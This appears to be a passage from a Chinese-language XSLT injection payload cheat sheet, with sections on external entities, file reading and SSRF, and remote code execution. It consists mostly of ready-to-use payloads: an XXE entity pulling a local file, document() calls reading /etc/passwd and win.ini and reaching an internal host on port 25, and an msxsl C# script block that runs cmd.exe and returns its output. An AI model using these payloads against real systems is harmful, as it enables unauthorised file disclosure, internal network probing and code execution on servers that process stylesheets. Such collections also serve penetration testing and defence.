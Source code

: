 ```xml
</body>
</html>
```
 ##### 外部实体
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE dtd_sample[<!ENTITY ext_file SYSTEM "C:\secretfruit.txt">]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/fruits">
    Fruits &ext_file;:
    <!-- Loop for each fruit -->
    <xsl:for-each select="fruit">
      <!-- Print name: description -->
      - <xsl:value-of select="name"/>: <xsl:value-of select="description"/>
    </xsl:for-each>
  </xsl:template>

</xsl:stylesheet>
```
 ##### 读取文件和SSRF
```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/fruits">
    <xsl:copy-of select="document('http://172.16.132.1:25')"/>
    <xsl:copy-of select="document('/etc/passwd')"/>
    <xsl:copy-of select="document('file:///c:/winnt/win.ini')"/>
    Fruits:
	    <!-- Loop for each fruit -->
    <xsl:for-each select="fruit">
      <!-- Print name: description -->
      - <xsl:value-of select="name"/>: <xsl:value-of select="description"/>
    </xsl:for-each>
  </xsl:template>
</xsl:stylesheet>
```
 ##### 使用嵌入式脚本块远程执行代码
```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="urn:my-scripts">

<msxsl:script language = "C#" implements-prefix = "user">
<![CDATA[
public string execute(){
System.Diagnostics.Process proc = new System.Diagnostics.Process();
proc.StartInfo.FileName= "C:\\windows\\system32\\cmd.exe";
proc.StartInfo.RedirectStandardOutput = true;
proc.StartInfo.UseShellExecute = false;
proc.StartInfo.Arguments = "/c dir";
proc.Start();
proc.WaitForExit();
return proc.StandardOutput.ReadToEnd();
}
]]>
</msxsl:script>

  <xsl:template match="/fruits">
  --- BEGIN COMMAND OUTPUT ---
	<xsl:value-of select="user:execute()"/>
  --- END COMMAND OUTPUT ---	
  </xsl:template>
```